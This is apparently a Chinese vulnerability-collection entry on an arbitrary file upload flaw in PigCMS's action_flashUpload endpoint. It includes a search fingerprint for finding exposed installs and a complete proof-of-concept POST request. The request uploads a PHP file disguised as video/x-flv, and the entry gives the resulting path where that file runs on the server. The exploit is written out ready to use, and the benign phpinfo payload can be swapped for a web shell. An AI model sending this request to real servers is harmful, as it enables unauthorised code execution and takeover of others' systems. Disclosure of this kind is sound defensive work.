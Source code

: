# PigCMS action_flashUpload 任意文件上传漏洞

# PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

pigcms

## 网络测绘

```
app.name="PigCMS"
```

## 漏洞复现

登陆页面

![image-20230828161452591](images/image-20230828161452591.png)

验证POC

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![image-20230828161506565](images/image-20230828161506565.png)

```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```


